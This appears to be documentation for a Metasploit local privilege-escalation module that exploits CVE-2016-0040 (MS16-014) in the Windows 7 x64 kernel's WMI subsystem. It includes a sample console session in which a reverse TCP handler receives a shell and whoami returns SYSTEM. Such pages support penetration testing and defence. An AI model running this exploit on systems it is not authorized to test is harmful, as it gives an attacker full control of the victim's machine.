 ## Introduction

This module exploits an uninitialized stack variable vulnerability
present in the WMI subsystem  of `ntoskrnl`.  The vulnerability is
described by MS16-014 and CVE-2016-0040.  The module allows the user to
elevate privileges (NT AUTHORITY\SYSTEM)

This module works against Windows7x64 SP0 and SP1
It was tested on and fails against Windows 8x64 - Windows 10x64 r1703

## Verification Steps

- [ ] obtain a session on the target system
- [ ] set the `payload`
- [ ] set the `session`
- [ ] `run`

## Scenarios

### Windows 7x64 SP1

```
meterpreter > background
[*] Backgrounding session 0...
msf exploit(handler) > use exploits/windows/local/ms16_014_wmi_recv_notif
msf exploit(ms16_014_wmi_recv_notif) > set session 0
session => 0
msf exploit(ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 172.16.38.170:4444
[*] Reflectively injecting the exploit DLL and running it...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (172.16.38.170:4444 -> 172.16.38.129:49695) at 2018-03-07 08:27:57 -0800

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\whoami
whoami
SYSTEM
```
